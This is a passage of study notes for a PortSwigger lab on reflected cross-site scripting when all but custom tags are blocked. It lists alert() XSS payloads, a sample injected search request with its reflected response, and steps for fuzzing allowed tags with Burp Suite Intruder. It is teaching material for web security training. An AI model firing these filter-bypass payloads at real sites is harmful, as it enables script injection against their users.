

## Bypassing Tag Blocking

When standard HTML tags are blocked, attackers often attempt to bypass these restrictions by using custom tags or attributes.

### Example: Custom Tags

1. **Custom Tag Injection**:
   ```html
   <customTag><script>alert('XSS')</script></customTag>
   ```

2. **Attribute Injection**:
   ```html
   <div customAttr="<script>alert('XSS')</script>"></div>
   ```

#### Testing Custom Tags

1. **Inject Custom Tags**: Replace the search term with custom tags and submit the form.
2. **Observe the Response**: Check if the custom tags are reflected and if the payload is executed.

```http
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

query=<customTag><script>alert('XSS')</script></customTag>
```

```http
HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
    <title>Search Results</title>
</head>
<body>
    <h1>Search Results for "<customTag><script>alert('XSS')</script></customTag>"</h1>
</body>
</html>
```

### Automating the Process

To automate the process of finding allowed tags, tools like Burp Suite Intruder can be used. Intruder allows you to send a large number of requests with different payloads to determine which tags are allowed.

#### Setting Up Intruder

1. **Send Initial Request**: Intercept the initial request in Burp Suite.
2. **Send to Intruder**: Right-click the request and select "Send to Intruder".
3. **Configure Payloads**: Add a list of custom tags and attributes as payloads.
4. **Start Attack**: Run the attack and observe the responses.



---
<!-- nav -->
[[02-Background Theory XSS Vulnerabilities|Background Theory XSS Vulnerabilities]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/19-Lab 18 Reflected XSS into HTML context with all tags blocked except custom ones/00-Overview|Overview]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/19-Lab 18 Reflected XSS into HTML context with all tags blocked except custom ones/04-Common Pitfalls and Detection|Common Pitfalls and Detection]]
